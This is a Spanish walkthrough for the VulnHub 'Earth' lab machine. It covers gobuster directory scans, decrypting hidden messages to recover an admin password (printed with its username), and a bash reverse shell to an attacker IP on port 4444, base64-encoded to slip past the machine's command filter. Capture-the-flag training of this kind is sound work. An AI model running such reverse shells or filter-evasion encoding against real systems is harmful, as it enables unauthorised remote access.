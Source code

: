 Realizar un escaneo nmap a ambas DNS como https
```bash
sudo gobuster dir -u https://earth.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/8.png){: .align-center}

```bash
sudo gobuster dir -u https://terratest.earth.local -w /usr/share/wordlists/dirb/common.txt -k
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/9.png){: .align-center}

Reportará que hay un `robots.txt`, acceder a él. Mostrará una lista de directorios.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/10.png){: .align-center}

Ir a `/testingnotes.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/11.png){: .align-center}

Ir a `testdata.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/12.png){: .align-center}

Usar cyberchef para desencriptar los mensajes de earth.local usando como clave el texto de `testdata.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/13.png){: .align-center}

Mostrará un menaje repetido bastantes veces que es earthclimatechangebad4humans
Usar ese resultado como contraseña en `earth.local/admin/login`

```bash
Usuario: terra
Contraseña: earthclimatechangebad4humans
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/14.png){: .align-center}

Al intentar hacer un reverse shell mostrará que no están permitidas las conexiones, esto es porque detecta que se está introduciendo un comando de reverse shell
```bash
/bin/bash -i >& /dev/tcp/192.168.122.13/4444 0>&1
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/15.png){: .align-center}

Encriptar el comando con base64
```bash
echo "/bin/bash -i >& /dev/tcp/192.168.122.13/4444 0>&1" | base64
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/16.png){: .align-center}
